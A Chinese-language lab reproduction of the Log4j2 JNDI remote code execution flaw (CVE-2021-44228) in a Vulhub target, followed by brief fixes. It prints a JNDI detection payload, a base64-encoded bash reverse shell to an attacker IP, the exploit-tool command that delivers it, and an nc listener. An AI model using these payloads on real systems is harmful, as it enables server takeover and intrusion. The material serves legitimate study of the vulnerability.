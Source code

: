 # 漏洞复现-log4j2远程代码执行漏洞

**0x00 前言**

漏洞编号：`CVE-2021-44228`

产生原因：

>  log4j2中存在`JNDI注入漏洞`，当程序记录用户输入的数据时，即可触发该漏洞。成功利用该漏洞可在目标服务器上`执行任意代码`。

受影响版本：

> 2.0 <= Apache Log4j <= 2.15.0-rc1

**0x01 环境搭建**

使用Vulhub环境搭建靶场

![image-20230306175906071](https://s2.loli.net/2023/03/06/vPfXcbzxSHLai1K.png)

准备工具`JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar`：

```
https://github.com/welk1n/JNDI-Injection-Exploit/releases/tag/v1.0
```

**0x02 漏洞复现**

1、测试漏洞是否存在

```
payload：${jndi:ldap://${sys:java.version}.edbei9.dnslog.cn}
```

![image-20230306192607982](https://s2.loli.net/2023/03/06/g82VTWqrj6ucmaf.png)



2、利用JNDI注入反弹shell

```shell
bash -i >& /dev/tcp/192.168.12.131/4444 0>&1
# base64加密后
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEyLjEzMS80NDQ0IDA+JjE=
```

```shell
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,base64编码后的shell}|{base64,-d}|{bash,-i}" -A 攻击主机IP

# 利用工具进行注入
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEyLjEzMS80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}" -A 192.168.12.131

# 将生成的相应环境的rmi、ldap参数写入payload进行访问

# 开启监听
nc -lvp 4444
```

我的环境在镜像中，所以换种方式验证是否成功

```shell
touch /tmp/yunkong
dG91Y2ggL3RtcC95dW5rb25n

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,dG91Y2ggL3RtcC95dW5rb25n}|{base64,-d}|{bash,-i}" -A 192.168.12.131
```

![image-20230306202608135](https://s2.loli.net/2023/03/06/RPAH1CckDNvnE4m.png)

**0x03 修复方案**

```
1、限制用户输入rmi、ldap、jndi、$等字符
2、将Apache Log4j升级到最新版本
```

